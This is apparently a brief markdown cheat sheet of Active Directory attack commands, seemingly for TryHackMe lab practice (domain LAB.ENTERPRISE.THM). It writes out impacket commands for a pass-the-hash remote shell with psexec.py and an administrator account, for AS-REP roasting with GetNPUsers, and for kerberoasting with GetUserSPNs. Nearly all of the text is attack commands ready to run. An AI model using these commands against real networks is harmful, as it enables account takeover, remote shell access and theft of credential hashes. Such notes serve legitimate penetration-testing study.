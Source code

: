 # psexec get remote shell over SMB with administrator account
```bash
psexec.py administrator@$IP -hashes abcd123abcd123abcd123abcd123abcd:abcd123abcd123abcd123abcd123abcd
```

# impacket ASREP roast with Get-NPUsers
note that the domain must end in a /
```bash
impacket-GetNPUsers -request -usersfile users -dc-ip $IP LAB.ENTERPRISE.THM/
```

# kerberoast with impacket-GetUserSPNs
```bash
impacket-GetUserSPNs -dc-ip $IP -request LAB.ENTERPRISE.THM/username
```
